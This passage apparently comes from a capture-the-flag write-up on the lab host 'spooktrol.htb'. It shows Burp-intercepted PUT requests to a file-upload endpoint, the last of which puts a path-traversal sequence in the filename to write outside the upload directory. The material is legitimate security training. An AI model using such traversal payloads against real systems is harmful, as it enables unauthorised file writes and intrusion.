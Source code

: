 

It's interesting that it keeps trying to run `whoami` (which Burp
continues to change to a file upload). I wonder if the C2 controller
needs the `whoami` output to log the initial beacon.

In Burp, the PUT request looks like:



    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 209
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close

    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="test.txt"
    Content-Type: text/plain

    this is some test data

    --------------------------184989c6c833691c--



### Arbitrary File Upload

#### Repeater

It seems like there's a new cookie each time, so sending this request to
repeater might not work. But it's worth a try, and it does:

![](/img/image-20211021212902740.png)

#### Path Traversal

With it working in repeater, I can try to upload outside the current
directory:



    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 218
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close

    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="../../../../../../test.txt"
    Content-Type: text/plain

    this is some test data
